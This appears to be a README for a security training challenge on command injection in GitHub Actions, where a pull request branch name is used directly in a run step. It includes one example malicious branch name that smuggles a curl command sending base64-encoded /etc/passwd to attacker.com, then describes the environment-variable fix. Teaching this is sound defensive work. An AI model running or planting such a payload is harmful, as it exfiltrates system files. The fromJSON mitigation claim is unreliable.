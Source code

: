 # Challenge 3: Command Injection from Pull Request Branch Name

This challenge demonstrates a command injection vulnerability that can occur when using the pull request branch name directly in a `run` step.

## Vulnerability

The `vulnerable.yml` workflow is triggered when a new pull request is opened. The `run` step in the `vulnerable_job` directly uses the pull request branch name in a shell command. An attacker can create a pull request with a malicious branch name that includes shell commands. For example, an attacker could create a branch named:

```
my-branch; curl http://attacker.com/$(cat /etc/passwd | base64)
```

When the workflow runs, the shell will execute the `curl` command, sending the base64-encoded contents of the `/etc/passwd` file to the attacker's server.

## Fix

The `fixed.yml` workflow mitigates this vulnerability by passing the pull request branch name as an environment variable to the script. This ensures that the pull request branch name is treated as a single string and not executed as a command.

## Advanced Mitigation

In addition to using environment variables, you can also use the `fromJSON` function to parse the pull request branch name and escape any special characters. This can provide an extra layer of protection against command injection attacks.
